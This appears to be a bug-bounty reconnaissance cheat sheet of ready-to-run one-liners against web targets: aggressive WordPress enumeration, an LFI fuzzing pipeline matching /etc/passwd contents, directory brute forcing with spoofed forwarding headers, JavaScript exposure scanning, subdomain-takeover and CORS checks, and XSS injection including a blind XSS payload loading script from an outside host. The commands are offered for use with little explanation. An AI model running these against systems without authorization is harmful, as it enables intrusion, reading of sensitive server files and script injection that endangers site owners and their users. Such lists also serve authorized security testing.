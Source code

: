 #(Wordpress aggressive scanning )
-----
	wpscan --url https://site.com --disable-tls-checks --api-token <here> -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force

#(LFI methodology )
-----
	echo 'https://example.com/' | gau | gf lfi | uro | sed 's/=.*/=/' | qsreplace 'FUZZ' | sort -u | xargs -I{} ffuf -u {} -w payloads/lfi.txt -c -mr 'root:(x|\*|\$[^\:]*):0:0:' -v


#(Directory Bruteforce - part 1 )
---
	dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1


#(Directory Bruteforce - part 2 )
-----
	ffuf -w seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u https://example.com/FUZZ -fc 400,401,402,403,404,429,500,501,502,503 -recursion -recursion-depth 2 -e .html,.php,.txt,.pdf,.js,.css,.zip,.bak,.old,.log,.json,.xml,.config,.env,.asp,.aspx,.jsp,.gz,.tar,.sql,.db -ac -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'X-Forwarded-For: 127.0.0.1' -H 'X-Originating-IP: 127.0.0.1' -H 'X-Forwarded-Host: localhost' -t 100 -r -o results.json

#(JS File hunting - part 1 )
-----
	echo example.com | katana -d 5 | grep -E '\.js$' | nuclei -t nuclei-templates/http/exposures/ -c 30

#(JS File hunting - part 2 )
-----
	cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/

#(For Checking Subdomain takeover )
-----
	subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl

#(For finding CORS )
------
	python3 corsy.py -i subdomains_alive.txt -t 10 --headers 'User-Agent: GoogleBot\nCookie: SESSION=Hacked'

#(For testing header based blind xss )
------
	subfinder -d example.com | gau | bxss -payload ''><script src=https://xss.report/c/coffinxp></script>' -header 'X-Forwarded-For'

#(For checking single xss on all urls )
----
	echo 'example.com ' | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
